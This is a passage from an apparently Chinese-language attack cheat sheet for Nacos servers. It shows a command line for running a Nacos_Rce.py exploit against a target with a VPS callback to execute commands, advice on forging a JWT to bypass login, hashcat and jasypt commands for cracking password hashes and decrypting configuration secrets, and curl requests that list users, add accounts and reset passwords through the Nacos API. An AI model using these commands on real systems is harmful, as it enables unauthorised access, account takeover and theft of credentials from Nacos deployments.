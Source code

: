 ```
```  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaWCv6qSfg23ASNYSL5vdeFjKurgdMJaMIsSvLzUicg205IKoic1GHKsLQ/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
默认会在5000端口打开服务  
  
然后本地机器上执行poc  
  
当系统为未授权访问时，可直接触发RCE  
  
Nacos_Rce.py -t 192.168.67.129 -p 5000 -u http://192.168.67.134:8848 -c whoami  
  
#-t vps ip  
  
#-p 端口地址  
  
#-u nacos web地址  
  
# -c 指定命令  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiahAuHXrTBrgHicuCUfIfHu7zrMpeRL9YpXiaxAHAib8sFAWR6UqtF3iaRDw/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
如果显示未知用户或者未找到用户，则表示nacos启用了鉴权需要伪造JWT绕过登陆授权，在文件Nacos_Rce.py文件中设置请求头即可。只要能够绕过登陆授权，就可能能RCE。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaBZc7dz3kUGm9wKTUxZZHX8sgvAKpcShO7junCiaH4W6HG9ppmjvQiakg/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
  
```
```  
  
### 10. 密码破解  
### nacos密码bcrypt  
  
hashcat -a 0 -m 3200 hashes.txt rockyou.txt -w 3 -O -D 1,2 --show  
### 配置文件密文 jasypt  
  
java -cp jasypt-1.9.3.jar org.jasypt.intf.cli.JasyptPBEStringEncryptionCLI input="123456" password="salt123" algorithm="PBEWithMD5AndDES"  
  
java -cp jasypt-1.9.3.jar org.jasypt.intf.cli.JasyptPBEStringDecryptionCLI input="MecKdyPwwkD+AqUKPy1GlQ==" password="salt123" algorithm="PBEWithMD5AndDES"  
### 11、常用命令  
  
http://127.0.0.1:8848/nacos/v1/console/server/state  
  
http://xx.xx.xx.xx/v1/console/server/state  
  
http://127.0.0.1:8848/nacos/v1/auth/users?search=accurate&pageNo=1&pageSize=9   get查询用户  
  
curl -v --data-binary "username=test&password=123456" "http://127.0.0.1:8848/nacos/v1/auth/users"  post添加用户  
  
curl -X PUT 'http://127.0.0.1:8848/nacos/v1/auth/users?accessToken=' -d 'username=test&newPassword=test123'  修改密码  
  